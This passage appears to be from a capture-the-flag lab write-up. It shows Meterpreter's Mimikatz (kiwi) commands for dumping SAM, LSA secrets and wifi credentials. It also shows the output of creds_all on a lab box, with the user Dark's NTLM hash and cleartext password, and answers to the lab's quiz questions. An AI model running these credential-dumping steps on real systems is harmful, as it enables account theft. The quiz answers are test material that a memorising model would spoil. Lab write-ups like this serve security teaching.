 ```
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
```

### Which command allows up to retrieve all credentials?
`creds_all`

### Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)
```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```
`Password01!`

---